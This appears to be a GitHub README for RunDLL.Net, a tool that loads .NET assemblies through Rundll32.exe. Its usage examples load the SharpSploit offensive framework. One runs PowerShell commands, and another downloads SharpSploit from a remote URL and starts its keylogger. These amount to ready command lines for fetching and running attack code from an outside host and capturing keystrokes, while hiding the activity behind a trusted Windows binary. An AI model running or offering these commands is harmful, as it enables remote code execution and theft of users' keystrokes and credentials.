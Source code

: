  ## RunDLL.Net
Execute .Net assemblies using Rundll32.exe

 ### Usage:
```
rundll32 Rundll.Net.dll,main <assembly> <class> <method> [(type)][arg1] [(type)][arg2]...
rundll32 Rundll.Net.dll,main C:\Program.dll MyProgram.Program DoThing "Example string" (bool)true (int)3
rundll32 Rundll.Net.dll,main http://website.com/Program.dll MyProgram.Program DoThing "Example string" (bool)true (int)3
```

 ### Examples:
 ```
rundll32.exe Rundll.Net.dll,main C:\Temp\SharpSploit.dll SharpSploit.Execution.Shell PowerShellExecute "ls C:\\" (bool)true (bool)false (bool)false
rundll32.exe Rundll.Net.dll,main http://website.com/SharpSploit.dll SharpSploit.Enumeration.Keylogger StartKeylogger (int)3 
 ```

### How to
To succesfully be loaded, classes and method invoked must be made public and static.
DLL and EXE assemblies can be loaded.
